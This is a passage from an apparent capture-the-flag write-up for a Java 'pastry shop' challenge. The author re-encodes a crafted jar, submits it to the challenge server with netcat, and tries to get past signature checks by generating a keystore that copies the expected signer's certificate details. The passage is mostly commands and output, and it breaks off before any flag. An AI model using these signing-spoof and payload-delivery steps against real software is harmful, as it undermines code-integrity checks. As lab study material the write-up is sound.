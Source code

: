 ```java
            outputStream.write((byte) EXIT_BYTE);
        } catch (IOException e){
            e.printStackTrace();
        }
    }
}
```
To make sure my encoder worked I compiled it, ran it on the decoded.jar file that was created earlier by the Decode class, and diffed the resulting encoded.jar with the provided ShamanoCakeContainerEncoded.jar file. 
```
javac Encode.java
java Encode < decoded.jar
diff encoded.jar ShamanoCakeContainerEncoded.jar
```
No output meant no difference! It seems like it worked. I sent the encoded.jar file to the server to make sure and it worked. I sent the pwndcake.jar file hoping for a flag back, but there was one more obstacle to overcome.
```
java Encode < pwndcake.jar
nc pastry.polictf.it 80 < encoded.jar
Welcome to John's Pastry Shop!
[Error] The cake container has unsigned class files. Exit now..
```
Signing a jar can be confusing. You have to generate a keystore with keytool and then sign it with jarsigner. I thought that just signing it would be enough.
```
keytool -genkey -alias poli
Enter keystore password:  
What is your first and last name?
  [Unknown]:  
What is the name of your organizational unit?
  [Unknown]:  
What is the name of your organization?
  [Unknown]:  
What is the name of your City or Locality?
  [Unknown]:  
What is the name of your State or Province?
  [Unknown]:  
What is the two-letter country code for this unit?
  [Unknown]:  
Is CN=Unknown, OU=Unknown, O=Unknown, L=Unknown, ST=Unknown, C=Unknown correct?
  [no]:  yes
Enter key password for <poli>
        (RETURN if same as keystore password):  
jarsigner pwndcake.jar poli
java Encode < pwndcake.jar
nc pastry.polictf.it 80 < encoded.jar
Welcome to John's Pastry Shop!
[Error] The cake container was not signed by the expected Shamano baker. Exit now..
```
Okay, so I need to make sure it's signed correctly. I didn't have the Shamano baker's private keystore for signing so I went to inspecting the jarfile with jarsigner
```
jarsigner -verify -verbose -certs decoded.jar
         177 Wed Apr 15 18:28:26 EDT 2015 META-INF/MANIFEST.MF
         298 Wed Apr 15 18:28:26 EDT 2015 META-INF/SHAMANO_.SF
        1441 Wed Apr 15 18:28:26 EDT 2015 META-INF/SHAMANO_.RSA
sm       676 Wed Apr 15 18:26:50 EDT 2015 it/polimi/necst/johncakedesigner/NewYorkCheeseCake.class
      X.509, CN=Shamano Pastry Shop, OU=Shamano Cooking Service, O=Shamano Inc., L=Milano, ST=Italy, C=IT
      [certificate is valid from 4/15/15 8:31 AM to 8/31/42 8:31 AM]
  s = signature was verified 
  m = entry is listed in manifest
```

  [Unknown]:  Shamano Pastry Shop
  [Unknown]:  Shamano Cooking Service
  [Unknown]:  Shamano Inc.
  [Unknown]:  Milano
  [Unknown]:  Italy
  [Unknown]:  IT